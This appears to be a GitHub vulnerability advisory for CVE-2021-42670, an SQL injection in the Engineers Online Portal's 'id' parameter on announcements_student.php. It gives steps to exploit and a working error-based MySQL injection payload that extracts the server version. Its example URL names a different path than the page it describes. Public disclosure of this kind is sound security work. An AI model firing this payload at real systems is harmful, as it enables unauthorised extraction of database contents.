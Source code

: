 # CVE-2021-42670
CVE-2021-42670 - SQL Injection vulnerability in the Engineers online portal system. 

# Technical description:
An SQL Injection vulnerability exists in the Engineers Online Portal. An attacker can leverage the vulnerable "id" parameter in the "announcements_student.php" web page in order to manipulate the sql query performed.
As a result the attacker can extract sensitive data from the web server.

Affected components - 

Vulnerable page - announcements_student.php

Vulnerable parameter - "id"

# Steps to exploit:
1) Navigate to http://localhost/nia_munoz_monitoring_system/announcements_students.php
2) Insert your payload in the id parameter

# Proof of concept (Poc) -
The following payload will allow you to extract the MySql server version running on the web server -
```
1' AND (SELECT 4356 FROM(SELECT COUNT(*),CONCAT(0x7178787071,(MID((IFNULL(CAST(VERSION() AS NCHAR),0x20)),1,51)),0x7178786b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'pMLo'='pMLo
```

![CVE-2021-42670](https://user-images.githubusercontent.com/93016131/140195568-31693a7a-12ac-4a37-9f41-329c6524e1a8.gif)

# References - 
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42670

https://nvd.nist.gov/vuln/detail/CVE-2021-42670

# Discovered by - 
Alon Leviev(0xDeku), 22 October, 2021. 
